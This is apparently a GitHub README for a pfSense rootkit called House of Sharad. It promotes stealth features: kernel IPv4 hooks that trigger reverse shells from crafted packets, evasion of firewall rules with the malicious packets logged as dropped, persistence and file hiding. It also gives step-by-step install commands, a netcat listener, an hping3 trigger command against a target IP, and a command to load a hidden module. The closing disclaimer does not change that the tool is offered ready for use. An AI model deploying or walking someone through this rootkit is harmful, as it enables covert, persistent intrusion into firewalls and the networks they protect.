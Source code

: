 # House of Sharad - pfSense Rootkit

## 🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack of the FreeBSD kernel, allowing for stealthy reverse shells by detecting specially crafted packets.

## 🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) ```bds_freebsd``` project. Huge thanks for this work!

## 📌 Compatibility

The precompiled .ko files are mainly compatable with pfSense 2.7.2 CE but have also worked for pfSense 2.7.1 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

## 🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked) while showing malicous incoming packets as dropped

✅ Persistance across reboots and unloading 

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (pfSense’s nc lacks reverse shell support)

## 🏗️ Installation

### 1️⃣ Cloning and Setup

### Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git

```cd house_of_sharad```

### Set execution permissions
```chmod +x load_and_setup.sh```

### Run the setup script
```./load_and_setup.sh```

Once the script completes, you'll be inside a ghost ```/house_of_sharad``` directory.  To return to root, run:

```cd /```

## 🛡️ Getting a Reverse Shell

### 1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

```nc -lvnp 7000```

### 2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

```sudo hping3 -S -p 80 -s 6969 <TARGET_IP>```

🔹 Port 80 is a good choice for the destination port.

🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

## 🧩 Additional Notes

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module, this is also finickey and the texct might just appear in kernel logs instead (this happened in pfSense 2.7.1 CE but it worked as intended in pfSense 2.7.2 CE).

### Loading It

```kldload /boot/modules/.evil/evil.ko```

### How it works

This Rootkit registers a custom hook to the top of the IPv4 head in pf and establishes reverse shells by forking the standard process that runs the ```cat``` command and running an execve call in child with the reverse shell command.

This is super duper mega awesome because even if firewall rules are made against the attacker IP, ports, or anything.  The registered hook will still receive the packet and make a reverse shell while showing incoming packets as being dropped, even though they are still seen by the box.


# ⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.


